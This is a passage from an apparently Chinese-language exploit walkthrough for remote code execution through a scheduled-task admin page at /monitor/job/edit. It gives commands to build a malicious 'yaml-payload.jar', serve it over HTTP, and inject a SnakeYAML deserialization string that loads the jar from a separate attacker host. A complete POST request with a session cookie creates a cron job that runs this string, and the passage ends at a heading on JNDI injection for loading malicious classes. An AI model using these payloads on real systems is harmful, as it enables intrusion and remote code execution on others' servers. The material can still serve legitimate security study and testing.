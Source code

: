 - 使用JAVA编译该文件，并且打包为jar，命令如下  
  
  

```
$ javac src/artsploit/AwesomeScriptEngineFactory.java
$ jar -cvf yaml-payload.jar -C src/ .
```

  
- 然后在该位置使用python开启http服务，用于远程加载该jar文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGtuLCMToic1jjSyzuibfhXUnW6Zia6B7gSBw3UYFqxcq7mtCwUDfGebvtA/640?wx_fmt=png&from=appmsg "")  
- 添加定时任务加载jar包  
  
- 目标字符串  
  

```
org.yaml.snakeyaml.Yaml.load(‘!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [“http://192.168.31.246:8000/yaml-payload.jar&#34;]]]]‘)
```

- cron表达式  
**0/10 **** ?**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzG18d59IiawK7EhcIibliaV1yCuIBlV6nib1LrmOia2h52HfB0Km10BW9aRfw/640?wx_fmt=png&from=appmsg "")  
- 定时任务请求包  
  

```
POST /monitor/job/edit HTTP/1.1
Host: 192.168.31.209
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 340
Origin: http://192.168.31.209
Connection: close
Referer: http://192.168.31.209/monitor/job/edit/112
Cookie: JSESSIONID=8fb6fb64-75c1-47ca-a145-0b7dd67ec5a2
jobId=112&updateBy=admin&jobName=RCE12&jobGroup=DEFAULT&invokeTarget=org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager+%5B!!java.net.URLClassLoader+%5B%5B!!java.net.URL+%5B%22http%3A%2F%2F192.168.31.246%3A8000%2Fyaml-payload.jar%22%5D%5D%5D%5D')&cronExpression=0%2F10+*+*+*+*+%3F&misfirePolicy=2&concurrent=1&status=1&remark=
```

- 创建任务后点击执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGSicH0LB1I5NWzAuWia86ssbTJSibInsf5FQddUKPHDXIGlqyEw5SMTWlA/640?wx_fmt=png&from=appmsg "")  
- 回显结果如图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGfnCp2xkkUXUMVGWA14OLUwc6jXabaqMkbic7DsHT5eKxsjwxOCL4ZQA/640?wx_fmt=png&from=appmsg "")  
### JNDI注入  
#### 简介  
- 通过JNDI远程加载恶意类  
  